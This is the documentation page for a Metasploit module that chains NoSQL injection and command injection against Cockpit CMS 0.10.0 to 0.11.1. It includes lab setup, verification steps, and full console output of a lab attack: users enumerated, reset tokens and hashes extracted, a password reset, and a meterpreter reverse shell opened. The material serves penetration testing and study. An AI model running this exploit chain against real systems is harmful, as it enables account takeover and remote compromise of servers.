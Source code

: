 ## Vulnerable Application

This module exploits two NoSQLi vulnerabilities to retrieve the user list,
and password reset tokens from the system.  Next, the USER is targetted to
reset their password.

Then a command injection vulnerability is used to execute the payload.
While it is possible to upload a payload and execute it, the command injection
provides a no disk write method which is more stealthy.

The following versions of Cockpit CMS contain all the necessary vulnerabilities for exploitation:

* 0.11.1
* 0.11.0
* 0.10.2
* 0.10.1
* 0.10.0

### Install

Use docker:

```
docker run -p 8080:80 agentejo/cockpit:0.10.0
```

Or follow https://blog.sommerfeldsven.de/how-to-install-cockpit-cms-on-nginx/

MAKE SURE TO BROWSE TO `/install` TO FINISH INSTALL!!

Some useful addresses which don't seem to be well documented:

* `/finder` for a file system browser
* `/accounts` for adding accounts
* `/install` to finish install

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/cockpit_cms_rce`
1. Do: `run`
1. Do: `set USER [user]`
1. Do: `run`
1. You should get a shell.

## Options

### ENUM_USERS

Use CVE-2020-35846 to enumerate users on the system.

### USER

Username to reset the password of, and login as to perform the command injection with. Defaults to `''`

## Scenarios

### Cockpit CMS 0.11.1 on Ubuntu 20.04

#### Obtain list of users

```
[*] Processing cockpit.rb for ERB directives.
resource (cockpit.rb)> use exploit/multi/http/cockpit_cms_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (cockpit.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (cockpit.rb)> set verbose true
verbose => true
msf6 exploit(multi/http/cockpit_cms_rce) > check

[*] Attempting Username Enumeration (CVE-2020-35846)
[*] 2.2.2.2:80 - The target appears to be vulnerable.
msf6 exploit(multi/http/cockpit_cms_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "asdf22", "4g4gsegs"]
[-] Exploit aborted due to failure: bad-config: 2.2.2.2:80 - User to exploit required
[*] Exploit completed, but no session was created.
```

#### Exploit user

```
msf6 exploit(multi/http/cockpit_cms_rce) > set user asdf22
user => asdf22
msf6 exploit(multi/http/cockpit_cms_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "asdf22", "4g4gsegs"]
[*] Obtaining reset tokens (CVE-2020-35847)
[*] Attempting to generate tokens
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c"]
[*] Checking token: rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c
[*] Obtaining user info
[*]   user: asdf22
[*]   email: none@none.com
[*]   active: true
[*]   group: admin
[*]   i18n: en
[*]   api_key: account-8d9e39cf206a7392d292efc281e824
[*]   password: $2y$10$R4mShvdxnXxxnTH85apRLedSWfYbOk4qsGQwG7apOfdQBVRnhEcme
[*]   name: dsf22
[*]   _modified: 1618755509
[*]   _created: 1618755500
[*]   _id: 607c3fac62336679e30002c3
[*]   _reset_token: rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c
[*]   md5email: 3eda6fcd3204ef285fa52176c28c4d3e
[+] Changing password to BoicMQSMPv
[+] Password update successful
[*] Attempting login
[+] Valid cookie for asdf22: c8695f6d766afc426d0e99f58fb04e0d=d3t7e356h03eufhuc55g91kgsb;
[*] Attempting RCE
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:37260) at 2021-04-18 10:26:27 -0400

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu2004
OS          : Linux ubuntu2004 5.4.0-56-generic #62-Ubuntu SMP Mon Nov 23 19:20:19 UTC 2020 x86_64
Meterpreter : php/linux
```
